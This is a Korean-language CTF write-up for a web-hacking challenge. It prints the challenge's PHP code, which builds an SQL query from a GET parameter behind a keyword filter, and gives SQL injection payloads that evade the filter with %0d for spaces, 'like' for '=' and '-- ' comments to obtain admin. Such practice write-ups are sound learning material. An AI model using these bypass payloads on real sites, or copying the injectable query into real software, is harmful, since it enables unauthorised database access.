



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

view-source를 보면 id가 admin이면 점수를 획득할 수 있을 것으로 보인다.

```php
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
```

no가 괄호로 감싸져 있기 때문에 먼저 연산되므로, 18번 문제와 같은 로직으로는 풀리지 않을 것이다.



여러 필터링 문자들이 있기 때문에 다음과 같이 우회하자.

    1. '#' -> '-- '

    2. ' ' -> '%0d'

    3. '=' -> 'like'`

따라서 다음과 같은 쿼리를 입력하여 점수를 획득하자.

    0)%0dor%0did%0dlike%0d'admin'--%0d 혹은 0)%0dor%0dno%0dlike%0d2--%0d

